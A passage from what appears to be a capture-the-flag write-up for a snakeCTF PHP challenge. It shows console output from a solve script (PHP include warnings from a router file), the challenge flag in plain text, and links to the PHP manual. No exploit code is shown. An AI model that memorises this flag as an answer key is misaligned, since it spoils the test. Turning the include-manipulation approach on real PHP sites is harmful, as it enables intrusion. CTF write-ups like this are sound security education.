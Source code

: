 Result:

```console
$ python3 flag.py
<br />
<b>Warning</b>:  Array to string conversion in <b>/var/www/html/router.php</b> on line <b>53</b><br />
<br />
<b>Warning</b>:  include_once(Array): Failed to open stream: No such file or directory in <b>/var/www/html/router.php</b> on line <b>53</b><br />
<br />
<b>Warning</b>:  include_once(): Failed opening 'Array' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/router.php</b> on line <b>53</b><br />
<br />
<b>Warning</b>:  Undefined variable $render in <b>/var/www/html/router.php</b> on line <b>58</b><br />
Rendering Error occurred!\nPlease contact the nearest locally available administrator and report him the fileArray
(
    [0] => Uhh all right, here's your flag: snakeCTF{w4it_th15_IsN7_!_krYpt0}
    [1] =>
)
\n
```

## References

- [PHP: Arrow Functions - Manual](https://www.php.net/manual/en/functions.arrow.php)
- [PHP: define - Manual](https://www.php.net/manual/en/function.define.php)
- [PHP: ctype_graph - Manual](https://www.php.net/manual/en/function.ctype-graph.php)
- [PHP: ctype_digit - Manual](https://www.php.net/manual/en/function.ctype-digit.php)
- [PHP: ctype_alpha - Manual](https://www.php.net/manual/en/function.ctype-alpha.php)
